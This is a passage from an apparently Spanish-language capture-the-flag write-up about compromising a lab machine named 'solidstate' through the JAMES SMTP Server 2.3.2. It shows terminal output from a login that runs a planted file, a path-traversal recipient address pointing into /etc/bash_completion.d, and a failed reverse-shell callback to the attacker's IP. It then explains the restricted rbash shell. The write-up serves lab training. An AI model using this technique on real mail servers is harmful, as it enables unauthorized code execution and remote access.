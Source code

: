 ```bash
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
-rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
-rbash: L: command not found
-rbash: attributestLjava/util/HashMap: No such file or directory
-rbash: L
         errorMessagetLjava/lang/String: No such file or directory
-rbash: L
         lastUpdatedtLjava/util/Date: No such file or directory
-rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
-rbash: $'L\004nameq~\002L': command not found
-rbash: recipientstLjava/util/Collection: No such file or directory
-rbash: L: command not found
-rbash: $'remoteAddrq~\002L': command not found
-rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
-rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
-rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
-rbash: @team.pl>
Message-ID: <9152149.0.1635800669443.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 10.10.14.23 ([10.10.14.23])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 285
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Mon, 1 Nov 2021 17:03:49 -0400 (EDT)
Date: Mon, 1 Nov 2021 17:03:49 -0400 (EDT)
From: team@team.pl

: No such file or directory
(UNKNOWN) [10.10.14.23] 443 (https) : Connection refused
-rbash: $'\r': command not found
mindy@solidstate:~$
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
mindy@solidstate:~$ 
```

Vemos que nos contramos en una `rbash` y nos limita los comandos que podemos ejecutar y podemos comprobarlo si ingresamos a la ruta `/home` del usuario `mindy` y vemos un directorio de nombre `bin` el cual tiene los binarios que podemos utilizar `cat`, `env` y `ls`.

```bash
mindy@solidstate:~$ ls -l
total 8
drwxr-x--- 2 mindy mindy 4096 Apr 26  2021 bin
-rw------- 1 mindy mindy   33 Nov 18  2020 user.txt
mindy@solidstate:~$ ls -l bin/
total 0
lrwxrwxrwx 1 root root 8 Aug 22  2017 cat -> /bin/cat
lrwxrwxrwx 1 root root 8 Aug 22  2017 env -> /bin/env
lrwxrwxrwx 1 root root 7 Aug 22  2017 ls -> /bin/ls
mindy@solidstate:~$
```
